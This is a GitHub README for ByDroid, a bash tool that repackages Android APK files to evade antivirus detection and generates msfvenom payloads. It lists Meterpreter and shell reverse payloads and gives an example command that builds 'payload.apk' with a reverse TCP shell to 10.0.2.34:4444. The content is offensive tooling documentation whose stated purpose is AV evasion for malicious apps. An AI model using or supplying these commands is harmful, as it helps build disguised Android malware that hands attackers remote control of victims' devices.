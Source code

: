 # ByDroid
A simple bash script for edit Android APK files and evade AVs changing the package

## Usage
```
bydroid.sh [OPTIONS] package [file]
OPTIONS:
  -h, --help          show help message
  -g, --generate      generate an apk with msfvenom (requires: -P, -l, -p)
  -P, --payload       set the payload for msfvenom (see below)
  -l, --lhost         set the lhost for msfvenom payload
  -p, --port          set the port for msfvenom payload
  -n, --name          change the app name (not implemented yet)
  -i, --icon          change the app icon (not implemented yet)
  -o, --output        select the output file
```

The `package` parameter means the new package for the app.

The `file` parameter is the input file to patch (ignored when use `-g`).

### Payloads
```
android/meterpreter/reverse_http
android/meterpreter/reverse_https
android/meterpreter/reverse_tcp
android/shell/reverse_http
android/shell/reverse_https
android/shell/reverse_tcp
```

## Dependencies
- msfvenom            (_only when use `-g`_)  https://github.com/rapid7/metasploit-framework
- apktool                                     https://ibotpeaches.github.io/Apktool/
- d2j-apk-sign                                http://repository-dex2jar.forge.cloudbees.com/snapshot/com/googlecode/d2j/dex-tools/2.1-SNAPSHOT/

_All of them included in Kali Linux_

## TODO
- [ ] Function -n (change name)
- [ ] Function -i (change icon)
- [ ] List missing dependencies
- [ ] Prompt for bin location when not found
- [ ] Change d2j-apk-sign for jarsigner
- [ ] Resource files generation

## EXAMPLES

`bydroid.sh com.new.package app.apk`

Changes the package of `app.apk` to `com.new.package` and gives an output file `out.apk`

`bydroid.sh com.new.package app.apk -o edited.apk -n "New Name" -i ~/images/icon.png`

Changes the package to `com.new.package`, the name of the app to `New Name` and the icon with the selected image, and gives the output file `edited.apk`

`bydroid.sh com.new.package -g -P android/shell/reverse_tcp -l 10.0.2.34 -p 4444 -o payload.apk`

Generates a payload `android/shell/reverse_tcp` which connects to `10.0.2.34:4444` and gives the output file `payload.apk`


